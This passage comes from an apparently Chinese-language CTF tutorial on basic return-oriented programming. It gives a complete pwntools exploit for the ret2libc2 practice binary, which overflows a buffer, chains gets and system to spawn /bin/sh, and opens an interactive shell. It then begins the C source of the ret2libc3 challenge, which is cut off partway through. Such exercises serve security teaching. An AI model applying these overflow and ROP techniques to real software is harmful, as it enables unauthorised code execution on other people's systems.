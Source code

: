 ![](/BasicROP.assets/ret2libc2.png)

编写攻击脚本
```python
from pwn import *

p=process("./ret2libc2")
pop_ebx_ret=0x0804843d
gets_plt=0x08048460
system_plt=0x8048490
buf2_addr=0x0804A080

payload='a'*112
payload+=p32(gets_plt)+p32(pop_ebx_ret)+p32(buf2_addr)+p32(system_plt)+'aaaa'+p32(buf2_addr)
p.sendline(payload)

p.sendline("/bin/sh")

p.interactive()
```

### ret2libc3
例题二，[题目地址](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2libc/ret2libc3)
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
```